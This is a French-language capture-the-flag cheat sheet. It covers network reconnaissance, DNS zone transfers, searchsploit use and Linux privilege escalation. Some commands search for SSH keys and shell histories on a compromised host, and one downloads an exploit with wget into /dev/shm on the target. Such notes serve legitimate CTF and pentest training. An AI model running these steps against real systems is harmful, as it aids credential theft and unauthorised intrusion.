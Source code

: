 # Capture The Flag

> Migration vers `pentest.md` en cours

- [Reconnaissance](#reconnaissance)
- [DNS](#dns)
- [Vulnérabilités](#vulnérabilités)
- [Local Privilege Escalation](#local-privilege-escalation)
- [SQLite](#sqlite)

---

Liens :
- https://attack.mitre.org/matrices
- https://www.thehacker.recipes

Départ :
- commencer par brancher le câble réseau 😉
- lancer Wireshark pour observer ce qu'il se passe sur la ligne
- s'assigner une IP sur le même réseau

## Reconnaissance

De manière générale :
- remarquer les versions

Si t'obtiens un accès sur un linux/windows :
- regarder l'historique des commandes
- regarder dans `$HOME/.ssh/`
- regarder la table ARP (pour découvrir des hôtes sans faire de scan)
- regarder les routes pour découvrir d'autres réseaux

Sur Linux :
```bash
history
find /root /home -name *history*

find {/root,/home/*}/.ssh

ip n
ip -br a; echo; ip r
```

Sur Windows :
```powershell
ipconfig -all
arp -a
route
```

## DNS

Si on a trouvé un serveur DNS :
```bash
echo 'nameserver <ip>' >> /etc/resolv.conf
```

Voir tous les enregistrements d'un domaine :
```bash
host -a example.com
```

Mapper un domaine : https://dnsdumpster.com

Pour faire un transfert de zone :
```bash
dig AXFR domain.name @192.168.1.53
```

## Vulnérabilités

Pour chercher des vulnérabilités :
- https://www.exploit-db.com
- https://nvd.nist.gov/vuln/search

ou la commande `searchsploit`:
```bash
# pour chercher (case insensitive AND)
searchsploit cutenews
# lire l'exploit
searchsploit -x <filename>
# copier l'exploit dans le CWD
searchsploit -m <filename>
```

## Local Privilege Escalation

Sur la machine cible :
```bash
# obtenir la version du noyau Linux
uname -a

# télécharger l'exploit (et le stocker en RAM)
wget URL > /dev/shm/lpe
```

## SQLite

```bash
sqlitebrowser fichier.sqlite
```
